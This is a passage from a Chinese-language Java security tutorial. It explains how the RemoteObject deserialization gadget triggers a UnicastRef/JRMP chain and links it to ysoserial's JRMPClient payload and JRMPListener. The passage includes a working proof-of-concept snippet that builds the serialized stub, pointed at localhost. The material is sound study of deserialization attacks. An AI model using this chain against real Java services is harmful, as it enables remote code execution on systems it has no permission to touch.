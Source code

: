 ## RemoteObject
`RemoteObject`的`readObject`方法会先反序列化成员变量`RemoteRef ref`, 最后调用其`readExternal`方法, 可以用来触发上一条`UnicastRef`链.

```java
public class RemoteObject1 {

	public static void main(String[] args) throws Exception {

		String host = "127.0.0.1";
		int    port = 12233;

		ObjID       id  = new ObjID(new Random().nextInt()); // RMI registry
		TCPEndpoint te  = new TCPEndpoint(host, port);
		UnicastRef  ref = new UnicastRef(new LiveRef(id, te, false));

		RMIServerImpl_Stub stub = new RMIServerImpl_Stub(ref);

		//  ysoserial 中使用 RemoteObjectInvocationHandler
//		RemoteObjectInvocationHandler obj = new RemoteObjectInvocationHandler(ref);
//		Registry proxy = (Registry) Proxy.newProxyInstance(RemoteObject1.class.getClassLoader(), new Class[]{Registry.class}, obj);

		SerializeUtil.writeObjectToFile(stub);
		SerializeUtil.readFileObject();
	}
}
```

`ysoserial`使用`RemoteObjectInvocationHandler`的代理类作为反序列化的入口点, 相当于是`UnicastRef`的延长链. 这部分对应的就是`ysoserial.payloads.JRMPClient`这个`gadget`, 恶意服务端可以结合`ysoserial.exploit.JRMPListener`来使用.

# 参考
- [Java RMI 攻击由浅入深](https://su18.org/post/rmi-attack/)

- [Java 安全-RMI-学习总结](https://paper.seebug.org/1251/#java-rmi-)